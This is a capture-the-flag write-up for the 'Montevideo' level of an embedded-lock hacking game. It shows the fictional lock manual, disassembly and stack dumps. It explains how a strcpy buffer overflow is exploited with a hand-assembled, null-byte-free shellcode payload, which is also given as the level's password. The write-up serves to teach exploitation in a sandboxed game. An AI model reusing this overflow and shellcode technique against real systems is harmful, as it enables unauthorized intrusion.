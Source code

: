 # 08: Montevideo

- _Points:_ 50 points
- _Version number_: c.03

## Password

```
34507f1134f0ff220412b0124c454141ee43
```

## Manual

```
Lockitall                                            LOCKIT PRO r c.03
______________________________________________________________________

              User Manual: Lockitall LockIT Pro, rev c.03
______________________________________________________________________


OVERVIEW

    - Lockitall developers  have rewritten the code  to conform to the
      internal secure development process.
    - This lock is attached the the LockIT Pro HSM-2.


DETAILS

    The LockIT Pro c.03  is the first of a new series  of locks. It is
    controlled by a  MSP430 microcontroller, and is  the most advanced
    MCU-controlled lock available on the  market. The MSP430 is a very
    low-power device which allows the LockIT  Pro to run in almost any
    environment.

    The  LockIT  Pro   contains  a  Bluetooth  chip   allowing  it  to
    communiciate with the  LockIT Pro App, allowing the  LockIT Pro to
    be inaccessable from the exterior of the building.

    There  is no  default  password  on the  LockIT  Pro HSM-2.   Upon
    receiving the  LockIT Pro,  a new  password must  be set  by first
    connecting the LockitPRO HSM to  output port two, connecting it to
    the LockIT Pro App, and entering a new password when prompted, and
    then restarting the LockIT Pro using the red button on the back.

    LockIT Pro Hardware  Security Module 2 stores  the login password,
    ensuring users  can not access  the password through  other means.
    The LockIT Pro  can send the LockIT Pro HSM-2  a password, and the
    HSM will  directly send the  correct unlock message to  the LockIT
    Pro Deadbolt  if the password  is correct, otherwise no  action is
    taken.

    This is Hardware  Version C.  It contains  the Bluetooth connector
    built in, and two available  ports: the LockIT Pro Deadbolt should
    be  connected to  port  1,  and the  LockIT  Pro  HSM-2 should  be
    connected to port 2.

    This is Software Revision 03. We have received unconfirmed reports
    of issues with the previous series of locks. We have reimplemented
    much  of the  code according  to our  internal Secure  Development
    Process.




(c) 2013 LOCKITALL                                            Page 1/1
```

## Writeup

This level is an extension of Level 07 (Whitehorse). The key difference here is that instead of loading the contents from `getsn` directly onto a buffer on the stack, ample space is allocated at `0x2400` on the heap, before calling `strcpy` to copy the contents from the heap back onto the stack.

```
4508:  3e40 3000      mov   #0x30, r14
450c:  3f40 0024      mov   #0x2400, r15
4510:  b012 a045      call  #0x45a0 <getsn>
4514:  3e40 0024      mov   #0x2400, r14
4518:  0f41           mov   sp, r15
451a:  b012 dc45      call  #0x45dc <strcpy>
451e:  3d40 6400      mov   #0x64, r13
4522:  0e43           clr   r14
4524:  3f40 0024      mov   #0x2400, r15
4528:  b012 f045      call  #0x45f0 <memset>
452c:  0f41           mov   sp, r15
452e:  b012 4644      call  #0x4446 <conditional_unlock_door>
```

While `strcpy` is vulnerable since it is unbounded, we cannot use our previous payload in Level 07 if we tried, as our stack would then look like this:

```
43e0:   6045 0000 0000 0000 0000 0000 3245 3012   `E..........2E0.
43f0:   7f00 0000 0000 0000 0000 0000 0000 3c44   .............<D
```

What happened here? We inserted a payload `30127f00b01232454141414141414141ae36` of 18 bytes, but it seems that only 6 bytes went through. What happened is that `strcpy` copies byte for byte from `src` to `dst` until it reaches a `0x00` byte, which is used to indicate a string terminator.

Instead, we need to avoid a `0x00` byte in our payload. We can do this by using a different set of instructions to achieve the same result. One such example:

```
add #0x117f, r4
and #0x22ff, r4
push r4
call #0x454c
```

What we did here is to use `AND` to remove any unwanted bytes so that they would evaluate to `0x00`. This assembles into `34507f1134f0ff220412b0124c45`, which does not have a `0x00` byte in it.

As such, our final payload is:

```
34507f1134f0ff220412b0124c454141ee43
```
